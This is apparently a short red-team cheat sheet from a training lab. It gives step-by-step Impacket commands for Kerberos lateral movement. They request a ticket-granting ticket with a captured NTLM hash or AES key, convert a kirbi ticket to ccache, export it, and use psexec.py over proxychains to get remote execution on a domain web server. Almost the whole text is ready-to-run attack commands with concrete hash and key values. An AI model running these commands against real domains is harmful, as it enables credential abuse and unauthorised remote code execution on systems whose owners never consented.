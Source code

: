 # Ask for a TGT with the user's ntlm or aes hash within linux

```bash
proxychains getTGT.py -dc-ip 10.10.122.10 -hashes :60188cb934db6d4bbebade8318ae57c6 dev.cyberbotic.io/jking
proxychains getTGT.py -dc-ip 10.10.122.10 -aesKey 4a8a74daad837ae09e9ecc8c2f1b89f960188cb934db6d4bbebade8318ae57c6 dev.cyberbotic.io/jking
```

---

# If you already have a ticket in Kirbi format we can convert it to ccache

```bash
echo -en 'doIFzj[...snip...]MuSU8=' | base64 -d > jking.kirbi
ticketConverter.py jking.kirbi jking.ccache
```

---

# Export the ticket

```bash
export KRB5CCNAME=jking.ccache
```

---

# Use the exported ticket

```bash
# dc.dev.cyberbotic.io -> 10.10.122.10
# web.dev.cyberbotic.io -> 10.10.122.30
proxychains psexec.py -dc-ip 10.10.122.10 -target-ip 10.10.122.30 -no-pass -k dev.cyberbotic.io/jking@web.dev.cyberbotic.io
```
